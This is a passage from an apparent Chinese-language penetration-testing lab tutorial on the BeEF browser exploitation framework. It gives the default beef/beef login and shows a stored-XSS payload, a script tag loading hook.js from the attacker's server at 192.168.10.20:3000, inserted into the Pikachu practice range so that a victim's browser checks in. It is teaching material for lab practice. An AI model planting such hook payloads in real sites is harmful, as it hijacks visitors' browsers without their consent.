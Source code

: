 账户密码：beef/beef

若在刚开始启动beef的时候设定了密码的话，那么密码就是你设置的那个登录密码，账户还是beef。

![img](assets/3vrtAgGabBQE5Vf.jpg) 

## **3.5 Beef案例测试**

### **3.5.1 插入构造代码**

将\<script src="http://192.168.10.20:3000/hook.js">\</script>代码插入pikache靶场的存储型xss中。

![img](assets/Pp3FNivEqrJmAWM.jpg) 

### **3.5.2 靶机上线**

通过从Beef工具上看，已经获取到靶机的相关信息了。
